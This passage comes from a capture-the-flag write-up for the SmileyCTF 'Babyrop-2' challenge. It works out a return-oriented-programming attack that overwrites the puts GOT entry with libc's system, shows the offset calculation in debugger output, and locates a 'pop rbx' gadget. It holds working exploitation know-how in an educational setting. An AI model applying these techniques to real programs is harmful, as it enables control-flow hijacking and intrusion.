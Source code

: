 
Another probably the most important one is the `0x40115c`  If we control `ebx` register value we control any value inside of `$rbp-0x3d` 

![d59cc8f546e7467c0dec46bdfd5e247d.png](/images/SmileyCTF/SmileyCTF-Babyrop-2/d59cc8f546e7467c0dec46bdfd5e247d.png)

Now imagine^imagination

```python
(remote) gef➤  p puts
$3 = {int (const char *)} 0x7ffff7e32be0 <__GI__IO_puts>
(remote) gef➤  p system
$4 = {int (const char *)} 0x7ffff7e03750 <__libc_system>
(remote) gef➤  p puts-system
$5 = 0x2f490
(remote) gef➤  p system-puts
$6 = 0xfffffffffffd0b70
```

>rbp : 0x40404d-> the print GOT address at 0x404010 (0x7ffff7e32be0 in my environment)
>ebx : 0xfffffffffffd0b70
> The result inside of 0x404010 -> 0x7ffff7e03750

The end of calculations successfully overwrite the 0x404010 with `__libc_system` address.
Nothing easy in life, this gonna be not so easy as well.

As you realize didn't shared any gadget we can control rbx value. Thats because couldn't find any proper gadget with least cost. I'm saying i couldn't because i am not sure if there is, i didn't recognize.

Anyway, there is no simple explanation for this, we need to find and calculate `pop rbx` gadget. The harvesting LIBC was not easy to me, you will see the reason at next steps. So this is our target address. ^e2ee21-addr

```python
(remote) gef➤  x/12i 0x00007ffff7e2ee21
   0x7ffff7e2ee21 <__parse_one_specmb+1057>:    add    rsp,0x18
   0x7ffff7e2ee25 <__parse_one_specmb+1061>:    mov    rax,r14
   0x7ffff7e2ee28 <__parse_one_specmb+1064>:    pop    rbx
   0x7ffff7e2ee29 <__parse_one_specmb+1065>:    pop    r12
   0x7ffff7e2ee2b <__parse_one_specmb+1067>:    pop    r13
   0x7ffff7e2ee2d <__parse_one_specmb+1069>:    pop    r14
   0x7ffff7e2ee2f <__parse_one_specmb+1071>:    pop    r15
   0x7ffff7e2ee31 <__parse_one_specmb+1073>:    pop    rbp
   0x7ffff7e2ee32 <__parse_one_specmb+1074>:    ret
```
